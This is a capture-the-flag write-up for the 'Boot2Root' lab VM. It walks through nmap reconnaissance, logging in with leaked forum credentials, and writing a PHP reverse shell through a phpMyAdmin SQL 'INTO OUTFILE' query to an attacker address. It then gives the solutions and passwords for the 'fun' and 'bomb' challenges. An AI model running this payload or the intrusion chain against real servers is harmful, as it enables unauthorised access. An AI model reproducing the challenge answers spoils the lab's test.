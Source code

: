 # Boot2Root

## Write-Up 1

After the vm setup the VM

Scan network to find ip:
`nmap -sP -sn 192.168.56.0/24`


Scan open port for the IP:
`nmap 192.168.56.4`


Detect routes:
`nmap -sV --script=http-enum 192.168.56.4`

```sh
21/tcp  open  ftp        vsftpd 2.0.8 or later
22/tcp  open  ssh        OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http       Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
143/tcp open  imap       Dovecot imapd
443/tcp open  ssl/http   Apache httpd 2.2.22
| http-enum:
|   /forum/: Forum
|   /phpmyadmin/: phpMyAdmin
|   /webmail/src/login.php: squirrelmail version 1.4.22
|_  /webmail/images/sm_logo.png: SquirrelMail
|_http-server-header: Apache/2.2.22 (Ubuntu)
993/tcp open  ssl/imaps?
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.18 seconds
```

We can observe:
    
- Ports open:

    21/tcp  open  ftp        vsftpd 2.0.8 or later

    22/tcp  open  ssh        OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)

    80/tcp  open  http       Apache httpd 2.2.22 ((Ubuntu))

    143/tcp open  imap       Dovecot imapd

    443/tcp open  ssl/http   Apache httpd 2.2.22

    993/tcp open  ssl/imaps?

- 4 Routes on port 443:

    /forum/: Forum

    /phpmyadmin/: phpMyAdmin

    /webmail/src/login.php: squirrelmail version 1.4.22

    /webmail/images/sm_logo.png: SquirrelMail


- Forum:
    We can curl the forum to see

```sh
curl --insecure 'https://192.168.56.4/forum/' | grep href | tr "<>" "\n" | grep href | sed 's/.* href/\
href/g' | cut -d "=" -f2 | sed '/^..*$/!d'
```

```
"themes/default/style.min.css" media
"index.php?mode
"index.php?mode
"themes/default/images/favicon.ico" /
"./" title
"index.php?mode
"index.php?mode
"index.php?mode
"index.php?refresh
"index.php?mode
"index.php?fold_threads
"index.php?toggle_view
"index.php?id
"index.php?mode
"index.php?id
"index.php?mode
"index.php?id
"index.php?mode
"index.php?id
"index.php?id
"index.php?mode
"index.php?id
"index.php?mode
"index.php?mode
"index.php?mode
"http://mylittleforum.net/"
```

From the web browser we can read a topic intitled "Probleme login?"
`https://192.168.56.4/forum/index.php?id=6`

We found inside 2 important data that we cannot guess, a username `lmezard` and a password `!q\]Ej?*5K5cy*AJ`

We can see inside many log about failed connection try
`curl --insecure 'https://192.168.56.4/forum/index.php?id=6' | grep 'Failed password'`

We found a password but doesn't work on ssh

We will try on the webmail service

Doesn't work either

Instead, if we try to login on the forum 

It works for te user `lmezard`

Now we are logged we can see that there is no real difference between the previous situation, exept for the user space

Inside the user spae we found the lmezard's email,that's `laurie@borntosec.net`

We can try to log to the webmail server at `webmail/src/login.php`

It works with the same password

There's a mail with db access

We can connect to the phpmyadmin dashboard

From here you can launch a reverse shell

```sql
SELECT "<?= exec('/bin/bash -c \"bash -i 2>&1 > /dev/tcp/192.168.56.3/8080 0>&1 \"');" INTO OUTFILE '/var/www/forum/templates_c/7.php'
```

we cat the file in `/home/LOOKATME/password`

we found inside the lmezard's password

we can log with the user and password

A README file tell us that we have to solve the fun challenge to get the ssh password for laurie user

Fun is a tar archive, with a c code split in many text files

after reagrrange files in order we can see that laurie password is a sha256 hash `330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4` from the string `Iheartpwnage`

After connect to laurie by ssh, another README tell us to solve the bomb challenge to get the Thor's password

The Bomb is a program that takes lines in input. There is 6 Phases (Levels)

Phase 1:

`Public speaking is very easy.`

Phase 2:
> 6 numbers following the `U(n+1)=n+1*U(n)` suite

`1 2 6 24 120 720`

Phase 3:
> There is 8 correct answer, under the format `%d %c %d`

`0 q 777`
`1 b 214`
`2 b 755`
`3 k 251`
`4 o 160`
`5 t 458`
`6 v 780`
`7 b 524`

> For the final answer only this soltuion works: `1 b 214`


Phase 4:
> Fibonacci suite, we search for fibonacci(x)=55

`9`

> There is a secret phase, who don't change the final result with `9 austinpowers` and the solution is `1001`

Phase 5:
> Matching between a formula's result on 6 char long string and the string `giants`

`opekmq`

Phase 6:
> 6 node of a chained list, that we need to reorder in decending order. Specify the order with 6 digits between 1-6

`4 2 6 3 1 5`

`Publicspeakingisveryeasy.126241207201b2149opekmq426315`
> We got an asset that tells we need to permute the n-1 and n-2 chars in the key

`Publicspeakingisveryeasy.126241207201b2149opekmq426135`
> this is thor's ssh password

